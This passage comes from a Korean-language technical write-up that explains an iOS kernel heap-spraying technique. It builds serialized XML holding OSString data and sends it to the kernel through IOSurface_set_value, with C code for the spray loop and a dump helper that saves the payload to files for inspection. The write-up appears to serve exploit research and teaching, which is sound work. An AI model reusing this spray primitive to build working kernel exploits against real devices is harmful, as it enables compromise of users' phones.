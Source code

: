 이 시점에서 XML 구조는 이미 완전히 구성되었고, 
xml_data 자리 표시자에 Spraying Data를 채우고 key에 식별자를 채워 넣기만 하면 조립이 완료된다.

### **데이터 조립**

다음 코드는 데이터 채우기와 커널로의 데이터 전송을 완료하며, 위의 논의를 바탕으로 이해하기 쉽다.

코드에서 표시된 3개의 핵심 단계를 통해 조립된 XML을 커널 프레임버퍼로 전송하면, 
커널이 그 안의 OSString에 메모리를 할당하기 때문에 이 과정에서 Heap Spraying이 완료된다.

```c
// Keep track of when we need to do GC.
static uint32_t total_arrays = 0;
size_t sprayed = 0;
size_t next_gc_step = 0;
// Loop through the arrays.
for (uint32_t array_id = 0; array_id < array_count; array_id++) {
    // If we've crossed the GC sleep boundary, sleep for a bit and schedule the
    // next one.
    // Now build the array and its elements.
    // 1. 고유 식별자를 생성하여 key에 채우기
    *key = base255_encode(total_arrays + array_id);
    for (uint32_t data_id = 0; data_id < current_array_length; data_id++) {
        // Copy in the data to the appropriate slot.
        // 2. 데이터를 OSString에 채우기
        memcpy(xml_data[data_id], data, data_size - 1);
    }
    
    // 3.커널로 데이터 전송하기
    // Finally set the array in the surface.
    ok = IOSurface_set_value(args, args_size);
    if (!ok) {
    	free(args);
    	free(xml_data);
    	return false;
    }
    if (ok) {
        sprayed += data_size * current_array_length;
    }
}
```

커널로 데이터 전송할 때의 데이터는 다음과 같다.

한눈에 살펴보기 위해 
IOSurface_set_value 호출직전에 데이터를 덤프시키는 코드를 작성하였고,

```c
void dump_xml_data(void *data, size_t length) {
    static int count = 0;
    char filename[32];
    snprintf(filename, sizeof(filename), "xml_data_dump_%d.bin", ++count);

    FILE *fp = fopen(filename, "wb");
    if (!fp) {
        perror("fopen");
        return;
    }
    fwrite(data, 1, length, fp);
    fclose(fp);
}

//XXX: Dump
dump_xml_data(args, args_size);

// Finally set the array in the surface.
ok = IOSurface_set_value(args, args_size);
```